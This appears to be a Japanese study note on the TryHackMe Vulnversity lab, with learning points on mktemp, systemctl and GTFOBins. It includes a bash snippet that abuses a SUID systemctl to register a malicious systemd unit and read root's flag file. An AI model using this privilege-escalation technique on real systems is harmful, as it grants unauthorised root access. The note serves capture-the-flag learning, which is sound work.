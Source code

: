 - 断念。。。-> [TryHackMe | Vulnversity - Writeup](https://tryhackme.com/resources/blog/vulnversity)を見ながら答えを確認する
  ```bash
  priv=$(mktemp).service
  echo '[Service]
  ExecStart=/bin/bash -c "cat /root/root.txt > /opt/flag"
  [Install]
  WantedBy=multi-user.target' > $priv

  /bin/systemctl link $priv
  Created symlink from /etc/systemd/system/tmp.u3BsWfqNDN.service to /tmp/tmp.u3BsWfqNDN.service.
  /bin/systemctl enable --now $priv
  Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.u3BsWfqNDN.service to /tmp/tmp.u3BsWfqNDN.service.

  # Capture The Flag!
  cat /opt/flag
  ```
- 学び
  - SUIDの理解
  - `mktemp` コマンド
    - /tmp/tmp.oSoIUcUO のようなファイルを作成する
  - `systemctl` のオプション
    - `systemctl link + ABSOLUTE PATH`
      - /etc/systemd/system/以下にシンボリックリンクを作成する
      - /etc/systemd/system 以下への書き込み権限がなくてもユニットを追加できる
    - `systemctl enable --now`
      - 自動起動有効化と起動を同時にできる
  - [GTFOBins](https://gtfobins.github.io/)

    Unixで利用されるバイナリの危険性を説明してくれているサイト

    [systemctl | GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/)